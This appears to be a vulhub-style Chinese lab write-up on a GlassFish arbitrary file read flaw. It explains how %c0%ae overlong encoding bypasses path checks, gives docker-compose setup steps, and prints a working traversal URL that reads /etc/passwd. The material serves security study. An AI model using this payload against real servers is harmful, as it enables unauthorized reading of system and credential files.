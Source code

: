 # GlassFish 任意文件读取漏洞

## 原理

参考文章：https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

## 漏洞复现

编译、运行测试环境

```
docker-compose build
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080`和`http://your-ip:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：

![](1.png)

## 额外说明

本环境超级管理员密码在`docker-compose.yml`中设置，默认为`vulhub_default_password`，在4848端口利用该密码可以登录管理员账户。
